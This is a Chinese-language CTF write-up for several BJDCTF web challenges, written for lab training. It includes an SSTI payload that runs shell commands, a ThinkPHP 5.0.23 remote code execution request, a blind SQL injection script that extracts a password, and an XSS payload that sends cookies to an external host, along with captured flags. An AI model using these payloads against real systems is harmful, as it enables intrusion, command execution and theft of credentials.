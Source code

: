 Web

## fake google

> 知识点：SSTI

> 题解

1. 根据源代码注释提示，SSTI模板注入
2. 注入

```
{% for c in [].__class__.__base__.__subclasses__() %}
{%if c.__name__=='catch_warnings' %}
{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat /flag').read()")}}
{%endif%}
{% endfor %}
```

## old-hack

> 知识点：ThinkPHP5.0.23 远程RCE

> 题解

```
POST http://244a0b0a-7187-4c12-b732-c4c75557924b.node3.buuoj.cn/?s=captcha

{
    "_method": "__construct",
    "filter[]": "system",
    "server[REQUEST_METHOD]": "cat /flag"
}
```

> flag{5c1565e5-6062-4416-b15a-75d3bc704bc6}

## 假猪套天下第一

> 题解

```
GET /L0g1n.php
Cookie: PHPSESSID=29l41t2qh0buaagirh7tlqrsu6; time=253400544000
Client-IP: 127.0.0.1
User-Agent: Commodore 64
from: root@gem-love.com
via: y1ng.vip
```

> flag{d68b92d3-635a-492d-9411-8c603ba1561c}

## duangShell

> 题解

1. /.index.php.swp下载源码
2. vim -r index.php.swp 查看源码
3. 反弹shell

## Schrödinger

> 题解

1. 设置cookied为空，check，拿到passwd
2. 去b站搜索

> BJD{Quantum_Mechanics_really_Ez}

## 简单注入

> 题解

```
import requests


def sql_injection_boolean(url: str, injection_key:str, injection_sql: str, vailstr: str, data: dict = {}, *args, **kwargs) -> str:
    """SQL injection -- Boolean
    """

    strlist = []

    for i in range(1, 50):
        high = 127
        low = 32
        mid = (low + high) // 2

        while high > low:

            data[injection_key] = injection_sql.format(i, mid)

            print(data)

            response = requests.post(url, data=data, *args, **kwargs)
            if vailstr in response.text:
                low = mid + 1
            else:
                high = mid

            mid = (low + high) // 2

        strlist.append(chr(int(mid)))

        print("".join(strlist))
    
    return "".join(strlist)


if __name__ == "__main__":
    url = 'http://30884624-9e73-4421-b7bb-35764d4f60c8.node3.buuoj.cn/index.php'
    injection_sql = "or if(ascii(substr(password,{},1))>{},1,0)#"
    data = {
        "username": "admin\\",
        "password": None,
    }
    sql_injection_boolean(url, "password", injection_sql, "BJD need", data)
```

> flag{5984b4fc-8dde-46ea-92a6-9513fba11f23}

## XSS之光

> 题解

1. GitHack.py 获取源码
2. 构造Payload

```
<?php
$a = serialize(new Exception("<script>window.location.href='57b195da-6920-48d5-8398-9d7ea9255150.node3.buuoj.cn'+document.cookie</script>"));
echo urlencode($a);
?>
# 运行，拿到编码之后的
```

> flag{4e506368-1f7b-4efb-85b9-50285b19d8b2}